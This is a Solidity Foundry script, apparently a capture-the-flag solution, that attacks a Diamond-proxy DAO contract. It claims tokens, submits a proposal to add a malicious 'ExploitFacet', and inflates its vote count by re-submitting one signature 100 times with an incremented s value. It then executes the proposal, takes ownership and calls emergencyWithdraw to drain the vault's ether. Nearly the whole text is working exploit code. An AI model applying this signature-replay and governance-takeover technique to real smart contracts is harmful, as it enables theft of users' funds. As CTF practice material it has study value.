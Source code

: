 ```solidity
        console.log("diamond owner :", OwnershipFacet(pigeonDiamond).owner());
        //claim 10000 FTC from setup
        console.log("Claiming FTC from setup...");
        setup_contract.claim();
        console.log("FTC balance of attacker :", FeatherCoinFacet(pigeonDiamond).balanceOf(attacker));
        console.log("FTC balance of setup :", FeatherCoinFacet(pigeonDiamond).balanceOf(address(setup_contract)));
        console.log("FTC totalSupply :", FeatherCoinFacet(pigeonDiamond).totalSupply());
        
        
        exploit = new ExploitFacet();
        
        bytes4[] memory selectors = new bytes4[](1);
        selectors[0] = bytes4(ExploitFacet.becomeOwner.selector);
        uint256 proposalId = DAOFacet(pigeonDiamond).submitProposal(address(exploit), hex"", IDiamondCut.FacetCut(address(exploit), IDiamondCut.FacetCutAction.Add, selectors));
        
        console.log("Proposal ID for exploit facet :", proposalId);
        
        
        FeatherCoinFacet(pigeonDiamond).delegate(attacker);
        vm.roll(block.number + 1);
        console.log("Attacker votes :", FeatherCoinFacet(pigeonDiamond).getCurrentVotes(attacker));
        console.log("getPriorVotes(attacker, block.number - 1) :", FeatherCoinFacet(pigeonDiamond).getPriorVotes(attacker, block.number - 1));
        
        (uint8 sig_v, bytes32 sig_r, bytes32 sig_s) = vm.sign(1337, keccak256(abi.encodePacked("kaiziron")));
        console.log("v, r, s :");
        console.log(sig_v);
        console.logBytes32(sig_r);
        console.logBytes32(sig_s);
        
        for (uint i; i < 100; ++i) {
            bytes memory sig = abi.encodePacked(sig_r, sig_s, sig_v);
            //console.logBytes(sig);
            DAOFacet(pigeonDiamond).castVoteBySig(proposalId, true, sig);
            sig_s = bytes32(uint256(sig_s)+1);
        }
        vm.roll(block.number + 6);
        DAOFacet(pigeonDiamond).executeProposal(proposalId);
        
        ExploitFacet(payable(pigeonDiamond)).becomeOwner();
        PigeonVaultFacet(pigeonDiamond).emergencyWithdraw();
        
        console.log("pigeonDiamond owner :", IOwnershipFacet(address(pigeonDiamond)).owner());
        console.log("attacker ether balance :", attacker.balance);
        console.log("isSolved() :", setup_contract.isSolved());
    }
}
```
